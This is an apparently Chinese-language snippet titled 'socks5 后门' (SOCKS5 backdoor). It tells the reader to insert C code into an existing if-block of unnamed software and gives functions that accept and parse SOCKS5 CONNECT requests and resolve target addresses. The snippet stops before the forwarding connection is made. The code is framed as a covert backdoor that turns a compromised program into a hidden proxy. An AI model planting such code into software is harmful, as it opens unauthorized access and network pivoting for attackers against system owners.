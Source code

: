 这个if里面添加

# socks5 后门

```c
static int socks5_auth(uint8_t *buffer)
{
	if (buffer[0] != 0x05 || buffer[1] == 0x00){
		return -1;
	}
	return 0;
}

static int socks5_connection_and_forward(int sock_in,int sock_out)
{
	char buffer[4096];
    ssize_t bytes_received;

	int snd_size  = 1;
	setsockopt(sock_out, SOL_SOCKET , SO_SNDBUF , (char *)&snd_size, sizeof(int));

	// 接收客户端发来的连接请求
    //buffer[0]: 协议版本号，固定0x05
    //buffer[1]: CMD有三种情况，0x01表示CONNECT，0x02表示BIND，0x03表示UDP
    //buffer[2]: RSV为保留字，固定为0x00
    //buffer[3]: ATYP表示后面的地址类型，0x01表示IPv4地址，0x03表示域名，0x04表示IPv6地址
    //DST.ADDR表示目标主机地址，对于域名类型，第一位表示长度，对于IPv4和IPv6分为占4 bytes 和16 bytes
    //DST.PORT表示目标主机端口
    bytes_received = recv(sock_in, buffer, 4096, 0);
    if (bytes_received < 8 || buffer[0] != 0x05 || buffer[1] != 0x01 || buffer[2] != 0x00) {
        // 不是SOCKS5协议的连接请求
        return -1;
    }

    // 解析目标地址和端口
    struct sockaddr_in dest_addr;
    dest_addr.sin_family = AF_INET;
    
    char domain[1024];
    if (buffer[3] == 0x01) {  // 4个字节，对应 IPv4 地址
        dest_addr.sin_port = (*(uint16_t*)(buffer + 8));
        memcpy(&dest_addr.sin_addr,buffer + 4,4);
    } else if (buffer[3] == 0x03) {  // 域名
        struct hostent *host_info;
        char **ip;
        uint8_t domain_len = buffer[4];
        dest_addr.sin_port = (*(uint16_t*)(buffer + 5 + domain_len));
        memcpy(domain, buffer + 5, domain_len);
        domain[domain_len] = '\0';
        host_info = gethostbyname(domain);
        if(host_info == NULL){
            return -1;
        }
        for (ip = host_info->h_addr_list; *ip != NULL; ip++) {
		    memcpy(&dest_addr.sin_addr, *ip, sizeof(struct in_addr));
            break;
        }
    } else {
        // 不支持的地址类型
        return -1;
    }

    // 创建与目标服务器的连接
```